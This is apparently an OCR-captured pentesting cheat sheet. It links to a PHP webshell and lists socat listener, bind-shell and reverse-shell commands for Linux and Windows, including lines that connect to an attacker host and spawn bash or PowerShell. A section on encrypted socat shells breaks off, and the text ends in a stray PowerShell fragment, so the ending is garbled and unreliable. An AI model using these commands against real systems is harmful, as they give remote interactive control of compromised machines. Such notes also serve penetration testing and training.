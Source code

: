 ### Links to webshells

https://github.com/backdoorhub/shell-backdoor-list/blob/master/shell/php/b374k.php

### Socat Shells

#### Linux

Listener \[1]

```
socat TCP-L:<port> -
```

\[2]

```
socat TCP-L:<PORT> EXEC:"bash -li"
```

Connect

```
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"
```

Stable Listener

```
socat TCP-L:<port> FILE:`tty`,raw,echo=0
```

Stable Connect

```
socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

#### Windows

Connect

```
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
```

Listen \[1]

```
socat TCP-L:<PORT> EXEC:powershell.exe,pipes
```

\[2]

```
socat TCP-L:<port> -
```

### Socat Encrypted

This command creates a 2048 bit RSA key with matching cert file, self-signed, and valid for just under a year. When you run this command it will ask you to fill in information about the certificate


[Text.Encoding]: :ASCII)) .ReadToEnd() ;"